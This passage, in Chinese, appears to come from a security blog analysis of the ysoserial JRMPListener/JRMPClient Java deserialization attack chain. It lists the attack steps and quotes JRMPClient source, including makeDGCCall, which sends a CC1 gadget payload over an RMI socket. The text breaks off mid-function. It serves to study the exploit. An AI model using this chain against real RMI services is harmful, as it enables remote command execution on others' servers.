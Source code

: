 [![](assets/1701612165-32565bdb2461c70b7caee670edef4fe5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810224937-209c0f02-378d-1.png)  
服务端成功命令执行

### 攻击流程

1.  payloads.JRMPListener 生成 payload1，用于在服务器上开启一个 rmi 端口（这里的端也是服务端）
2.  服务端接收到 payload1 后，进行反序列化，成功开启 9999 端口并监听
3.  exploit.JRMPClient 端生成恶意 payload2，并向服务端发送
4.  服务端检测到端口上有数据请求，经过解包、反序列化（rmi 中的知识）后导致命令执行

### exploit.JRMPClient 分析

**第一步**：生成 payload  
在 exploit.JRMPClient 的 main 函数中，使用下面这句代码生成 CC1 链所需要的 payload

```plain
Object payloadObject = Utils.makePayloadObject(args[2], args[3]);
```

**第二步**：

```plain
makeDGCCall(hostname, port, payloadObject);
```

进入该函数

```plain
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
    // 创建网络地址
    InetSocketAddress isa = new InetSocketAddress(hostname, port);
    Socket s = null;
    DataOutputStream dos = null;
    try {
        // 创建套接字和输出流
        s = SocketFactory.getDefault().createSocket(hostname, port);
        s.setKeepAlive(true);
        s.setTcpNoDelay(true);

        OutputStream os = s.getOutputStream();
        dos = new DataOutputStream(os);

        // 向输出流写入一系列字节，表示调用相关的信息。这些信息包括魔数、版本、协议类型、调用类型等
        dos.writeInt(TransportConstants.Magic);
        dos.writeShort(TransportConstants.Version);
        dos.writeByte(TransportConstants.SingleOpProtocol);

        dos.write(TransportConstants.Call);

        @SuppressWarnings ( "resource" )
        // 创建对象输出流
```